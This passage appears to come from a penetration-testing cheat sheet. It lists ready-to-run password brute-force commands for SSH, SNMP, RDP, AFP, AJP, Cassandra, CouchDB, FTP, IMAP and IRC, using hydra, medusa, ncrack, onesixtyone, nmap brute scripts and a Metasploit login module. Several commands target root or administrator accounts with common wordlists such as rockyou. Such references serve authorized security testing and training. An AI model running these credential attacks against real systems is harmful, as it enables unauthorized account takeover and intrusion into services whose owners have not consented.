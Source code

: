 	medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh

### SNMP

	hydra -P wordlist.txt -v $ip snmp
	
	nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]

	onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp_onesixtyone.txt <IP>

	hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp

### Remote Desktop Protocol

	ncrack -vv --user admin -P password-file.txt rdp://$ip

	ncrack -vv --user <User> -P pwds.txt rdp://<IP>

	hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>

	hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

### AFP

	nmap -p 548 --script afp-brute <IP>

### AJP

	nmap --script ajp-brute -p 8009 <IP>

### Cassandra Apache

	nmap --script cassandra-brute -p 9160 <IP>

### CouchDB

	msf> use auxiliary/scanner/couchdb/couchdb_login

### FTP

	hydra -l root -P passwords.txt [-t 32] <IP> ftp

	ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]

	medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp

### IMAP

	hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
	
	hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
	
	nmap -sV --script imap-brute -p <PORT> <IP>

### IRC

	nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
